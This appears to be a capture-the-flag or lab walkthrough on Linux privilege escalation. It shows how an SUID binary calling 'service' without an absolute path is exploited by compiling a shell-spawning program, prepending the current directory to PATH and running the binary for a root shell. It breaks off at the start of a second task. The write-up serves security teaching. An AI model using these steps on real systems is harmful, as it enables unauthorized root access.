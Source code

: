 First, execute the file and note that it seems to be trying to start the apache2 webserver:

`/usr/local/bin/suid-env`

this has binary data so, 
<img width="1751" height="165" alt="LPE15" src="https://github.com/user-attachments/assets/e3b7c5a8-8e2d-4242-ad00-fdafa71b6336" />


Run strings on the file to look for strings of printable characters:

`strings /usr/local/bin/suid-env`

```bash
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
```

One line ("service apache2 start") suggests that the **service** executable is being called to start the webserver, however the full path of the executable `/usr/sbin/service` is not being used.

<img width="1552" height="316" alt="LPE16" src="https://github.com/user-attachments/assets/b981e32e-e26b-4aea-8223-e725b0097ec5" />

Compile the code located at **`/home/user/tools/suid/service.c`** into an executable called **service**. This code simply spawns a Bash shell:

`gcc -o service /home/user/tools/suid/service.c`

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:

`PATH=.:$PATH /usr/local/bin/suid-env`

<img width="1696" height="184" alt="LPE17" src="https://github.com/user-attachments/assets/634f8ff5-8ad1-4c92-9c1f-306901936956" />

We got it…

Task 14 SUID / SGID Executables - Abusing Shell Features (#1)

The `/usr/local/bin/suid-env2` executable is identical to **`/usr/local/bin/suid-env`** except that it uses the absolute path of the service executable (`/usr/sbin/service`) to start the apache2 webserver.

in this we have some binary text in file by using string command we will read it.
<img width="1891" height="761" alt="LPE18" src="https://github.com/user-attachments/assets/5c9f9d97-337e-4da5-a110-68e65e0bb80a" />
